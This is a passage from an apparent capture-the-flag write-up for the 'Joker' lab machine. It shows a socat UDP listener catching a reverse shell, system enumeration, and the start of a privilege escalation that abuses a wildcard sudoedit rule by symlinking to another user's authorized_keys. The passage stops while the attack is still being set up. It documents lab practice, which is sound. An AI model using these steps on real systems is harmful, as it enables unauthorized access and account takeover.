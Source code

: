 nc ne gère pas UDP, on utilise socat
```
# socat file:`tty`,echo=0,raw udp-listen:1234
$ id
uid=1000(werkzeug) gid=1000(werkzeug) groups=1000(werkzeug)
$ 
```


## System

```
$ cat /etc/issue
Ubuntu 16.10 \n \l

werkzeug@joker:~$ uname -a
Linux joker 4.8.0-52-generic #55-Ubuntu SMP Fri Apr 28 13:28:50 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
```


## Elevation

```
werkzeug@joker:~$ sudo -l
Matching Defaults entries for werkzeug on joker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    sudoedit_follow, !sudoedit_checkdir

User werkzeug may run the following commands on joker:
    (alekos) NOPASSWD: sudoedit /var/www/*/*/layout.html
```
We can edit a link with name /var/www/*/*/layout.html as alekos
Let make a link to /home/alekos/.ssh/authorized_keys
And put a key in


Generate a new ssh key on kali
```
# ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/root/.ssh/id_rsa): ./joker_alekos_rsa
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in ./joker_alekos_rsa.
Your public key has been saved in ./joker_alekos_rsa.pub.
The key fingerprint is:
SHA256:l/W2/NI5GJ/MgmM6SgIWhU9clyimgSyjBl5q1Qm8HYI root@kali
The key's randomart image is:
+---[RSA 2048]----+
|. +.=.o....      |
|+E B.O ...       |
|=.+.X o     .    |
|.= o.o     o .   |
|o  o    S o   o  |
|  . .    .   + . |
|     . .    . O.o|
|      o  . + o.O.|
|       ...+ . ..o|
+----[SHA256]-----+


cd /var/www/testing
mkdir yolo
cd yolo
```